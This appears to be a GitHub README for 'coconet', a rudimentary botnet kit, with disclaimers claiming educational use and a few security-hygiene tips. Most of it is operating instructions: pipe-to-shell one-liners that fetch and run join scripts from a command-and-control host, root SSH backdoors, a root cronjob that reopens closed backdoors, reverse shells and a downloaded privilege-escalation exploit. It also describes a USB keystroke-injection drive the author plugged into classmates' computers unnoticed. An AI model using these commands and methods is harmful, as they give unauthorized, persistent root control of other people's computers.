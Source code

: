<img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# coconet
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## Lessons Learned
Through the development of this totally-legal codebase, I learned a lot about networking, writing shell scripts, and simple security. I realized through this activity just how dangerous it can be for an attacker to get physical access to one's computer, and as such I've been far more careful henceforth to follow security precautions.

Though I'd never use an attack like this against anyone without permission, there are people who would. As such, I'd recommend that anyone who owns or uses a computer (especially a laptop or other portable device) build some healthy security habits:
* Obviously, password-protect your device, and require authentication to log in after sleep.
* Remove any delay between closure of your device and the your screen lock becoming active. This may annoy you if you accidentally close the computer, but it will protect you from mistakenly thinking your computer is secure enough to be left alone when it won't be for five minutes.
* Never, ever leave your computer unlocked and/or unattended. By the end of my Governor's School class, I was able to seize total remote control as root with only 12 seconds of typing. Imagine what someone with genuine malevolent intentions could do if you let them touch your computer.

## How it works
In brief, physical access can be used by an attacker to enter a simple command to download and run a shell script which will set up that computer as a new node in the network. This process involves enabling SSH and giving public key access to the root account, and adding a root cronjob to periodically download and run an update script from the Command & Control server (detailed below).

That update script will automatically reopen any backdoors which may have been closed since the last run. Code can be added to perform any task desired.

Thus, an operator may control nodes via SSH or by adding code for all nodes to run into update scripts. Reverse shells can also be used for finer control sans direct access network access for SSH.

### Command & Control
C&C is managed on ports `2042` & `2043` of a server.

Instructional scripts are served via HTTP on port `2042`. Run
```sh
python3 -m http.server 2042
```
from the `control` directory to make them available to nodes upon request.

A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into a file `nodes.txt`. Run
```sh
python3 server.py
```
after installing the dependencies listed in `requirements.txt` to listen for incoming data.

This process can be streamlined by using `./launch.sh` to automatically open two `tmux` windows with the appropriate commands.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During the cybersecurity class in which I developed `coconet`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
